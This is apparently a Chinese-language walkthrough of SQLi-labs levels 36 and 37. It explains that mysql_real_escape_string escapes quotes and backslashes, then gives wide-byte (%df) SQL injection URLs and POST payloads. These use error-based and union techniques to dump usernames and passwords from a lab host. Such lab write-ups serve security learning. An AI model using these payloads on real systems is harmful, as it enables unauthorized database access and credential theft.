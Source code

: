 这一关主要考查了 Bypass MySQL Real Escape String，mysql_real_escape_string 会检测并转义如下危险字符：

| 危险字符 | 转义后 |
| :------- | :----- |
| `\`      | `\\`   |
| `'`      | `\'`   |
| `"`      | `\"`   |

### 报错注入

```
http://daishen.ltd:1112/Less-36/?id=-1%df%27%20and%20extractvalue(1,concat(0x23,(select%20username%20from%20users%20order%20by%20id%20limit%202,1),0x23))--+
```

### 联合注入

```
http://daishen.ltd:1112/Less-36/?id=-1%df%27%20union%20select%201,2,group_concat(username,0x3a,password)%20from%20users%20--+
```

# Less-37

```
uname=admin%df' and 1=2 union select 1,(SELECT GROUP_CONCAT(username,password SEPARATOR 0x3c62723e) FROM users)#&passwd=
```

